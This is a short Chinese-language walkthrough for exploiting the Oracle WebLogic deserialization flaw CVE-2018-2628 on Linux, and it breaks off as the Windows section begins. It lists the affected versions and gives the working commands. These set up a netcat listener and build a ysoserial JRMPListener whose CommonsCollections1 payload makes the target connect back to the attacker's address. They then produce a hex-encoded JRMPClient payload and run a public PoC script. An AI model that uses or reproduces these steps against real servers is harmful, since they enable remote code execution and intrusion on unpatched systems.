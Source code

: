 ### 0x04 WebLogic反序列化漏洞(CVE-2018-2628)
	
影响版本：

- WebLogic 10.3.6.0.0
- WebLogic 12.1.3.0.0
- WebLogic 12.2.1.2
- WebLogic 12.2.1.3

### 针对Linux系统weblogic：

#### 1、监听本地6666端口

```
nc -lvvp 6666
```

#### 2、搭建JRMPListener，用于发送payload

本地ip为192.168.62.140

ysoserial-master.jar的下载地址：

https://jitpack.io/com/github/frohoff/ysoserial/master/ysoserial-master.jar

定位到文件ysoserial-master.jar的目录

```
java -cp ysoserial-master.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -nv 192.168.62.140 6666'
```

#### 3、生成JRMPClient修改poc

本地ip为192.168.62.140

```
java -jar ysoserial-master.jar JRMPClient "192.168.62.140:1099" > p.dat
cat p.dat  | xxd -ps | tr -d "\n"
```

将回显的内容替换python脚本里面的payload

#### 4、、执行测试脚本

https://github.com/shengqi158/CVE-2018-2628/blob/master/weblogic_poc.client1.for.scan-cve-2018-2628.py

修改python脚本里面的dip

执行python脚本：

```
python CVE-2018-2628.py
```

### 针对Windows系统weblogic：

#### 1、搭建JRMPListener，用于发送payload
